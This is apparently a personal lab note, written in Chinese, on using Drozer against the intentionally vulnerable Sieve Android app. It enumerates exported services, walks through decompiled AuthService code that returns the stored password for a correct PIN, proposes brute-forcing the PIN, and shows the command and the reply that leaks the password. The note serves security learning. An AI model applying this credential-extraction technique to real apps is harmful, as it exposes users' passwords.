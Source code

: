 ```yaml
---
title: Test Sieve - services exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


# Test Sieve - services exported
1. 列出exported services有哪些
    ```bash
    dz> run app.service.info -a com.mwr.example.sieve
    Attempting to run shell module
    Package: com.mwr.example.sieve
      com.mwr.example.sieve.AuthService
        Permission: null
      com.mwr.example.sieve.CryptoService
        Permission: null
    ```
2. 逆向
    從以上可以知道有兩個service是被export的，這樣的話就可以逆一下判斷可以送出什麼東西以及可能的漏洞在哪，按照教學的說明我直接看==AuthService==這個service，
    在`com.mwr.example.sieve.AuthService`中的其中一段就是有問題的地方:
    ```java
    public class AuthService extends Service {
        ...
        private final class MessageHandler extends Handler {
            ...
            public void handleMessage(Message msg) {
                ...
                switch (msg.what) {
                    case 4:
                        ...
                    case AuthService.MSG_CHECK /* 2354 */:
                        if (msg.arg1 == AuthService.TYPE_KEY) {
                            responseCode3 = 42;
                            String recievedString = returnBundle.getString("com.mwr.example.sieve.PASSWORD");
                            if (AuthService.this.verifyKey(recievedString)) {
                                AuthService.this.showNotification();
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else if (msg.arg1 == AuthService.TYPE_PIN) {
                            responseCode3 = 41;
                            String recievedString2 = returnBundle.getString("com.mwr.example.sieve.PIN");
                            if (AuthService.this.verifyPin(recievedString2)) {
                                returnBundle = new Bundle();
                                returnBundle.putString("com.mwr.example.sieve.PASSWORD", AuthService.this.getKey());
                                returnVal2 = 0;
                            } else {
                                returnVal2 = 1;
                            }
                        } else {
                            sendUnrecognisedMessage();
                            return;
                        }
                        sendResponseMessage(5, responseCode3, returnVal2, returnBundle);
                        return;
                    ...

    ```
    首先在msg.what=2354且msg.arg1=AuthService.TYPE_PIN的地方，若程式讀取到的`com.mwr.example.sieve.PIN`的value(也就是PIN Code)，經過verifyPin這個function比對過後一致，則他會return一個bundle，內涵`com.mwr.example.sieve.PASSWORD`以及我們之前設定的password，並且回傳response message給我們
    →[5, 41, 0, {com.mwr.example.sieve.PASSWORD:\<password\>}]
    而這個問題在哪裡呢?經過前期的確認以及逆向，我們可以寫個script爆破，不斷送出一些pin code給這個service，則因為大多時候PIN Code的複雜度比較低，所以總有一天可以得到使用者的密碼了
3. 和service互動
    從下面的結果來看，一開始設定的密碼為==123456acitseccom==
    ```bash
    dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 1 --extra string com.mwr.example.sieve.PIN <User PIN> --bundle-as-obj
    Attempting to run shell module
    Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
      what: 5
      arg1: 41
      arg2: 0
      Extras
        com.mwr.example.sieve.PASSWORD (String) : 123456acitseccom
    ```